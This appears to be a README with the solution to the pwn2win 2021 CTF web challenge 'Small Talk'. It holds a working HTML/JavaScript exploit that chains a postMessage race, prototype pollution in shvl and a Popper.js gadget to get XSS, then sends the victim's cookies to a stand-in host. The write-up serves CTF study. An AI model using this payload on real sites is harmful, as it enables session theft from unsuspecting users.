 # Small Talk - pwn2win 2021
**Description:** Take a little break in your journey, read some of our extravagant knowledgement to become your best version...

...and, of course, share your sentences with us.

**Solves:** 16

**First Blood:** More Smoked Leet Chicken

# Running it
`docker-compose build`

`docker-compose up -d`

environment will be running at http://localhost:1337

## Advisory
In order to get the flag through cookies you must run it with HTTPS to set cookies with samesite none parameter.

## Solution

To solve this challenge submit to the bot your page with the following code:

```HTML
<!--
Pwn2win 2021 Small Talk solution
step 1: race condition in postMessage
step 2: prototype pollution in shvl
step 3: use Popper.js as gadget to achieve xss
-->

<iframe name="page" style="height: 500px" src="https://small-talk.coach:1337/#send-button"></iframe>

<body><input id="oi" autofocus></body>
<script>
    setInterval(function(){
        window.frames["page"].postMessage('{"__proto__.reference.onblur": "location=`https://your.address.com/${document.cookie}`", "message": "gonna hack"}', '*');
    }, 0);
</script>
<script>
    setInterval(function(){
        oi = document.querySelector('#oi');
        oi.focus();
    }, 700)
</script>
```

